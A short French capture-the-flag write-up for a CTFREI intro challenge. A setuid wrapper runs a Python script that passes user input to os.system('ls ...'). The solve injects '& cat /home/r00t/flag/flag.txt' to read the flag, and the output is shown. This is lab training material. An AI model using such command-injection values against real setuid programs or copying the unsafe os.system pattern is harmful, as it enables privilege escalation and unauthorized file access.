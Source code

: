 Votre but est d'exploiter le binaire (en exécutant ./wrapper), n'oubliez pas de lire le fichier chall.py, qui est le programme exécuté par ./wrapper.

Le flag est situé ici : /home/r00t/flag/flag.txt

Nom d'utilisateur : jail
Mot de passe : jail
ssh -p 4444 jail@intro.ctfrei.fr 

-------------------------------------------------------
#!/usr/bin/python3
import os

print("Rentre en input un directory que tu veux ls !")
s = input("ls ")
os.system(f'ls {s}')
-------------------------------------------------------

On constate que wrapper appartient à r00t et qu'on peu l'executer.
```
jail@c8ca7891ea87:~$ ls -la
total 32
drwxr-xr-x 1 root root  4096 Sep 19 14:00 .
drwxr-xr-x 1 root root  4096 Sep 19 14:00 ..
-rwxr-xr-x 1 root root   123 Sep 12 13:25 chall.py
-rwsr-xr-x 1 r00t r00t 16056 Sep 19 14:00 wrapper
```

On peut manipuler l'input de python pour executer les commandes que l'on veut :
```
os.system(f'ls {s}')
```
```
jail@c8ca7891ea87:~$ ./wrapper 
Rentre en input un directory que tu veux ls !
ls / & cat /home/r00t/flag/flag.txt
CTFREI{3a5y_b1n4ry_3xpl0it}
bin   dev  home  lib32	libx32	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 lib64	media	opt  root  sbin  sys  usr
```
